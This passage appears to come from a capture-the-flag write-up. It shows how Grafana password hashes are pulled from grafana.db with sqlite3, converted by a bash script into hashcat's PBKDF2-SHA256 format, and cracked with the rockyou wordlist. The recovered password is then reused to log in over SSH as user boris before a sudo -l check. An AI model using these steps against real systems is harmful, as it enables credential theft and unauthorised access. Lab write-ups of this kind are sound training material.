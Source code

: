```
  Kernel.Type(s)......: pure
  Example.Hash.Format.: plain
  Example.Hash........: sha256:1000:NjI3MDM3:vVfavLQL9ZWjg8BUMq6/FB8FtpkIGWYk
  Example.Pass........: hashcat
  Benchmark.Mask......: ?a?a?a?a?a?a?a
```


So that's how our hash is supposed to look.

It looks like `sha256:iterations:salt:hash`

And it's base64 encoded, rather than hexed. So we can make a simple script to do just that.

```bash
#!/usr/bin/env bash

delim='|'

while IFS=$delim read -r salt pw; do
   salt_enc=$(base64 -w 0 <<< "$salt")
   hash_enc=$(xxd -r -ps <<<  "$pw" | base64 -w0)
   echo "sha256:10000:$salt_enc:$hash_enc"
done
```

```bash
sqlite3 grafana.db 'select salt,password from user;' | ./graf2hashcat.sh
```
```
sha256:10000:WU9iU29MajU1Uwo=:epGeS76Vz1EE7fNU7i5iNO+sHKH4FCaESiTE32ExMizzcjySFkthcunnP696TCBy+Pg=
sha256:10000:TENCaGR0SldqbAo=:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=
```

Now of course, if you just searched for [grafana2hashcat](https://github.com/iamaldi/grafana2hashcat/tree/main) on github, you'd have found this work has already been done. 

However, it's nice to get an idea of how to actually do research and think of techniques that would help you figure this out if the work wasn't done. Because eventually you'll encounter situations where it isn't.


So we try and crack these hashes
```bash
hashcat hashes /seclists/rockyou.txt -m 10900
```

This will give us a password for the user boris. You could login to the grafana instance if you like, but I immediately tried for password reuse, seeing it if it works the SSH. And it does.


## PrivEsc


Once we have boris, we do the typical check of a `sudo -l`

```bash
#boris@data:~$
sudo -l
```

